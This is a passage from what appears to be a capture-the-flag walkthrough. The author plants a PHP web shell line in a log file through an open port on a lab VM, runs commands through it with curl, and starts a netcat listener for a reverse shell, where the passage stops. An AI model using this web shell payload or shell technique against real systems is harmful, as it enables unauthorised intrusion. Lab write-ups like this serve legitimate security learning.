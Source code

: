 
  
At this point I got stuck, and had to check a walkthrough for tips. While
scrolling down carefully, they mentioned using wireshark and just listening
for a while. The server attempted to connect to port 10000 and gives a whole
lot of garbled data. Waited another 5 minutes and made sure this time to store
the data. It was a gzip file, decompressing it revealed lots of files, but
it's still suspicious how to use it next.  
  
From time to time I noticed that port 10001 opens up (noticed it at the very
start), when I found it open I wrote some stuff into it then hit CTRL+C.
Nothing happened! But then I checked the backup_log.php file again, **it was
blank**. I believe there's a bug with the code, but ultimately I had to
restart the VM and this time when I wrote some text I waited till the port
time out. Refreshing the php file shows our output as well as executes any php
code embedded.  
  
_(Oh and by the way, this seems to happen after the server tries to contact us
on port 10000.)_  
  
Text used:  
  

    
    
    root@kali:~/Desktop# cat text  
    It's me, abatchy  
    <?php system($_GET['cmd']) ?> 
    
    
    root@kali:~/Desktop# nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
    listening on [any] 10000 ...  
    connect to [192.168.2.240] from (UNKNOWN) [192.168.2.120] 49182  
    (UNKNOWN) [192.168.2.120] 10001 (?) open 
    
    
    root@kali:~/Desktop# curl http://192.168.2.120/logs/backup_log.php?cmd=whoami
    
    
    ... 
    
    
    <redacted>   
    ...
    
    
    It's me, abatchy apache  

  
Awesome, let's try a bash one-liner to get a reverse shell. First start a
listener on port 443.  
  

    
    
    ------------------------------Terminal 1------------------------------ 
    
    
    root@kali:~/Desktop# nc -nvlp 443  
    listening on [any] 443 ...
    
    
    ------------------------------Terminal 2------------------------------ 
    
    